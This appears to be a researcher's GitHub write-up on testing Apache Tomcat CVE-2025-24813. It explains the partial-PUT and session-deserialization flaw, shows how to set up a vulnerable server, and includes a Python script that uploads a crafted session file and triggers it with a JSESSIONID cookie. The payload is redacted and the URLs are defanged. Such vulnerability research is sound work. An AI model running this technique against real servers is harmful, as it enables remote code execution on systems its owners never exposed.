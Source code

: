# 2025-03-14 (Friday): Testing CVE-2025-24813

## Author

- Yiheng An

## Original References

- https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq
- https://nvd.nist.gov/vuln/detail/CVE-2025-24813
- https://scrapco.de/blog/analysis-of-cve-2025-24813-apache-tomcat-path-equivalence-rce.html

## Versions Affected

- Apache Tomcat 11.0.0-M1 to 11.0.2
- Apache Tomcat 10.1.0-M1 to 10.1.34
- Apache Tomcat 9.0.0.M1 to 9.0.98

## Notes

CVE-2025-24813 is a recently announced vulernability for Apache Tomcat. Apache is an open-source web server plaform, and Tomcat is software that allows Apache web servers to run Java servlets.

Exploiting this vulnerablity consists of two steps:

1. Arbitrary file writing
2. Insecure deserialization

###  Arbitrary File Writing

When session persistence is enabled in Tomcat, the server will serialize all active user sessions before shutting down. Upon restarting, Tomcat will deserialize these sessions, allowing user sessions to remain active without users being aware of the server restart. 

However, if the HTTP PUT method in Tomcat is enabled, files uploaded via HTTP PUT requests may be cached in the same directory where serialized session data is stored. On a vulnerabile web server, an attacker might be able to exploit CVE-2025-24813 to save malicious files to the serialized session data directory.

### Insecure Deserialization

After saving a malicious file to the directory for serialized session data. An attacker could use a crafted cookie to "wake up" a session. This could potentially trigger Tomcat to deserialize a maliciously crafted session file, allowing exploitation through deserialization vulnerabilities

## Testing an Exploit 

We successfully tested an exploit for CVE-2025-24813 on an Apache web server running an outdated version of Tomcat with an outdated version of Java.

Note: All URLs below have been de-fanged.

### Test Environment

- Ubuntu 24 Server
- Apache-Tomcat 9.0.90
  - hxxps[:]//archive.apache[.]org/dist/tomcat/tomcat-9/v9.0.90/bin/apache-tomcat-9.0.90.zip
- Java 8.0.442-zulu
- Some depdendencies
  - hxxps[:]//repo1.maven[.]org/maven2/commons-logging/commons-logging/1.2/commons-logging-1.2.jar
  - htxxps[:]//repo1.maven[.]org/maven2/commons-beanutils/commons-beanutils/1.9.4/commons-beanutils-1.9.4.jar

### Establishing a Vulnerable Tomcat Configuration

1. Enable PUT

   Edit `tomcat/conf/web.xml` and set add `readonly` to 'false] under the `default` servlet name section. An example is shown below near the end of the code.

   ```xml
       <servlet>
           <servlet-name>default</servlet-name>
           <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
           <init-param>
               <param-name>debug</param-name>
               <param-value>0</param-value>
           </init-param>
           <init-param>
               <param-name>listings</param-name>
               <param-value>false</param-value>
           </init-param>
           <init-param>
             <param-name>readonly</param-name>
             <param-value>false</param-value>
           </init-param>
           <load-on-startup>1</load-on-startup>
       </servlet>
   ```

2. Enable Session persistence

   Edit `/tomcat/conf/content.xml` and add the following setting.

   ```xml
       <Manager className="org.apache.catalina.session.PersistentManager">
         <Store className="org.apache.catalina.session.FileStore" />
       </Manager>
   ```

3. Create a directory at `/tomcat/webapps/ROOT/WEB-INF/lib` and place two outdated dependencies within the directeory using the following commands.

   ```
   mkdir ./tomcat/webapps/ROOT/WEB-INF/lib && cd ./tomcat/webapps/ROOT/WEB-INF/lib
   wget hxxps[:]//repo1.maven[.]org/maven2/commons-logging/commons-logging/1.2/commons-logging-1.2.jar
   wget hxxps[:]//repo1.maven[.]org/maven2/commons-beanutils/commons-beanutils/1.9.4/commons-beanutils-1.9.4.jar
   ```

### Example of an Exploit

We used [Java Chains](https://github.com/vulhub/java-chains) to create a specially crafted session file and send it to a vulnerable web server running Apache Tomcat at www.wiresharkworkshop[.]online. Below contains a section of Python script used for this purpose. The malicious session file is named `gopan.session` but can be changed to any name.

```python
import requests
import base64
import os

TARGET_IP = "hxxp[:]//www.wiresharkworkshop[.]online:8080/"

# b64_encoded_payload = "****[information redacted]****"

output_file_path = "decoded_chain.bin"
decoded_content = base64.b64decode(b64_encoded_payload)

with open(output_file_path, "wb") as f:
    f.write(decoded_content)

put_url = f"{TARGET_IP}/gopan.session"
put_headers = {"Content-Range": "bytes 0-5/100"}

with open(output_file_path, "rb") as f:
    put_response = requests.put(put_url, data=f, headers=put_headers)
os.remove(output_file_path)

get_url = f"{TARGET_IP}/"
get_headers = {"Cookie": "JSESSIONID=.gopan"}
get_response = requests.get(get_url, headers=get_headers)
```
